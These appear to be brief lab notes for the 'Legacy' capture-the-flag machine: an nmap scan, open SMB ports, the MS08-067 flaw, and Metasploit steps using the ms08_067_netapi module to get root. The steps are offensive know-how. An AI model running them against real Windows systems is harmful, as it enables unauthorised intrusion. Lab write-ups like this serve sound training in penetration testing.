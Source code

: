 **IPv4: 10.10.10.4**
## Enumeration/Scanning
sudo nmap -A -Pn -sS -oN legacy $IP

135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds

MS08-067


## Exploitation
msfconsole
* windows/smb/ms08_067_netapi
* set RHOST and LHOST
* exploit

root in Administrator/Desktop/root.txt
user in john/Desktop/user.txt

## Privilege Escalation


## Post-exploitation

